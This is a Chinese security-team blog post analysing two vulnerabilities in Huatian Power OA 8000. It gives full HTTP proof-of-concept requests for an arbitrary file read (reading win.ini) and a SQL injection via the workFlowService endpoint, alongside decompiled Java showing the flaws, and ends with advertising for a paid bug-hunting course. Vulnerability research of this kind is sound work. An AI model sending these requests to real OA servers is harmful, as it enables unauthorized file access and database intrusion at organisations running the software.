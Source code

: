 #  华天动力OA Service漏洞分析两则   
原创 chobits02  Code4th安全团队   2025-01-07 06:57  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQGQG6ibYpsQ9hibUNQ9JogaBM4ETcLDdyuTknYvxjLbGCEQFKUEwbwpummEIZzqUcA3Mhaj6yJqd9Q/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
  
偶然  
获得了华天OA的一部分源码，查看对应的版本为华天动力OA 8000，这里结合漏洞来分析下如何根据茫茫大海般的源码，来分析漏洞产生点。  
  
华天动力是我国首批OA企业,是双软认证的高新技术企业,专注OA办公系统20余年,开放免费OA系统下载试用,旗下OA产品累计为37500多个客户提供高效OA办公体验。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6KpicznxLeNM2UficKmYLB2RqicwR0HWcYxHiavADQ2C6xEUSM07EGot7GgkPdIg/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞分析其一  
  
任意文件读取漏洞，对应的poc如下  
```
POST /OAapp/bfapp/buffalo/TemplateService HTTP/1.1
Content-Type: text/xml
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: 
Content-Length: 101
Expect: 100-continue
Connection: close
<buffalo-call>
<method>getHtmlContent</method>
<string>c:/windows/win.ini</string>
</buffalo-call>
```  
  
请求路径  
bfapp/buffalo  
是后端服务的地址，无法在静态路径中找到对应方法  
  
所以需要在配置文件buffalo-service.properties里面查询对应的Service名称和包名称，  
TemplateService  
对应的包名称如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6Kpiczn7Dzwia2CGvkUvMm3qekn4qjaOoEI95OI9s6f1Sw1Q3usbaK2LWsDM6Q/640?wx_fmt=png&from=appmsg "")  
  
找到对应的jar包进行反编译，对应代码如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6Kpiczn4dTS0KldwX2xzYUKL5XDE8iaKFhANtuXBEKc42nfJX5q9XHVP90wefw/640?wx_fmt=png&from=appmsg "")  
  
对应方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6KpicznSczm02dwtuHY4bSxLa6ibTGwwtqibZMQHoLTUrTCNiaibjHjvvzrVQDHkA/640?wx_fmt=png&from=appmsg "")  
  
```
/*      */   public String getHtmlContent(String htmlFileName) {
/*  768 */     if (htmlFileName == null) return null; 
/*  769 */     return OaTools.getFileContent(htmlFileName, this.sysInfo.getCharSet());
/*      */   }
```  
  
其中的OaTools方法导入自这个包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6Kpicznc190HBqboSFvxcB02ZCTic72DrehuIjmaU6ryaMQFE63eoqm5NgcGNQ/640?wx_fmt=png&from=appmsg "")  
  
  
对应jar包为oaapp_base.jar，但是没有找到这个方法。搜索了一下，最后在cnpower.jar的OaBaseTools里面找到了同样的getFileContent方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6KpicznyAISKibP4tVSKu8fN9tf0ubjU3q2aloU9j4L4OljCicYNftMvjib6tOiaw/640?wx_fmt=png&from=appmsg "")  
  
  
  
代码如下：  
```
  public static String getFileContent(String paramString1, String paramString2) {
    File file = new File(paramString1);
    try {
      FileInputStream fileInputStream = new FileInputStream(file);
      byte[] arrayOfByte = new byte[fileInputStream.available()];
      fileInputStream.read(arrayOfByte);
      fileInputStream.close();
      return (paramString2 == null) ? new String(arrayOfByte) : new String(arrayOfByte, paramString2);
    } catch (Exception exception) {
      exception.printStackTrace();
      return null;
    } 
  }
```  
  
其中对应的charSet方法为获取编码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6Kpiczn82HQgGWbNhx2SSPcIe8wCsRpdUHSFsbZXibFtnIeVswhLbgR7ssxKhw/640?wx_fmt=png&from=appmsg "")  
  
方法中第一个传参为文件路径，第二个传参为编码，最后返回文件内容并判断是否编码，然后就能读取任意文件内容  
  
  
漏洞分析其二  
  
  
另外一个是SQL注入漏洞，poc对应如下  
```
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```  
  
继续看下  
workFlowService  
对应的包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6KpicznoauPOGHZbwUIZKTpYOOjIv7mWaQ3o52gpwN8iav5D6Hw7H9WnG9s9mA/640?wx_fmt=png&from=appmsg "")  
  
方法名称知道了，但是不知道在哪个jar包中，findstr搜索方法  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6KpicznKr5d5TksKNU7bxqZdv2IJthwcxvHHr3I26frsq9pRRMjc63eQkpS6A/640?wx_fmt=png&from=appmsg "")  
  
对应的jar包为appservice.jar  
  
进到代码中查看  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6Kpiczn39gA1iakiayia4gdjj40bia7ibG6WElCnkQNOXlPiabFH1of2HENdNogEjog/640?wx_fmt=png&from=appmsg "")  
  
对应的method为  
getDataListForTree  
，直接搜索  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJSXibibMQerDB0Pazwj6KpicznVuzaZEkGmmNVHkRJJCQjUgsSs6iaNibaibUFs5QZiarUFl0pkRudwWuiaag/640?wx_fmt=png&from=appmsg "")  
  
关键代码如下：  
```
/*      */   public List getDataListForTree(String sql) {
/*  927 */     List<HashMap> dataList = null;
/*      */     try {
/*  929 */       dataList = getDatas(sql);
/*  930 */       if (dataList == null || dataList.size() == 0) return dataList; 
/*  931 */     } catch (OaException e) {
/*  932 */       e.printStackTrace();
/*      */     } 
```  
  
传参字符串包含SQL语句，调用getDatas(sql)方法，追踪getDatas  
```
/*      */   public List getDatas(String sql) throws OaException {
/*  889 */     if (sql == null || "".equals(sql)) return new ArrayList();
/*      */     
/*  891 */     Session hiSession = null;
/*      */     
/*      */     try {
/*  894 */       hiSession = TransactionManager.getInstance().getCurrentSession();
/*  895 */       HiOaBaseSQLManager event = new HiOaBaseSQLManager(hiSession);
/*  896 */       return event.executeQuerySQL(sql);
/*  897 */     } catch (Exception e) {
/*  898 */       e.printStackTrace();
/*  899 */       throw new OaException(e.getMessage());
/*      */     } finally {
/*      */       
/*  902 */       if (hiSession != null) {
/*  903 */         hiSession.close();
/*      */       }
/*      */     } 
/*      */   }
```  
  
此处是直接执行了SQL语句，因此造成了SQL注入。至此可以看出漏洞利用都十分的简单  
  
  
  
  
**每个初学挖洞的小白都有一个美梦**  
：是否可以在我学习挖洞技能的时候，有位师傅手把手指导，不仅教会我各种技术，还能带着我一起接项目挣钱，让我的技能和钱包同时“升级打怪”。  
  
    还真别说，现在这个天降大饼的美梦来了！FreeBuf知识大陆帮会《安全渗透感知大家族》，正好为你提供了这样的机会。在这里，你既能  
学到知识  
，又能  
做项目赚钱  
，还能在项目实践过程中与大佬们  
交流思路、夯实基础  
。  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651303102&idx=1&sn=6bd3abdb7109cc66aba29c207220abb3&chksm=bd1c3e358a6bb723efafa4f60e95a264aeea48508f9acef1444e8d5dded986457f046c39e3a2&scene=21#wechat_redirect)  
  
该**SRC漏洞挖掘出洞课程**  
，是由团队内部师傅根据实际挖洞经历整合的适合挖掘漏洞但是缺乏思路、刚接触学习漏洞挖掘不出漏洞的师傅们的漏洞挖掘教程。  
  
第一期课程价格  
199  
，这价格还要什么自行车？课程正在持续更新中~  
  
[](http://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247485154&idx=1&sn=90f1bce91e53a5bf538bdef11fe15b2d&chksm=c2516dcbf526e4dd6d75254b70743d30902a7f0288d001148a41cc05e2d0b9fb09702d2ea03e&scene=21#wechat_redirect)  
  
**致远A8**  
，又称致远互联A8协同管理软件，是面向中型、大型、集团型组织（集团版OA）的数字化协同运营中台。A8版本的系统小版本较多，本次分析用的是致远A8 V7 SP1版本源码。  
  
[](http://mp.weixin.qq.com/s?__biz=MzkzMzE5OTQzMA==&mid=2247484688&idx=1&sn=928f50f70991a1979dcefb8d02cb02d6&chksm=c2516e39f526e72fae6fe053cf7ab537692bd5581a5552dfe7bfcee0588bd7e5c0d793f2f84b&scene=21#wechat_redirect)  
  
END  
  
  
  
关注Cod  
e4th安全团队  
  
获取更多安全相关内容~  
  
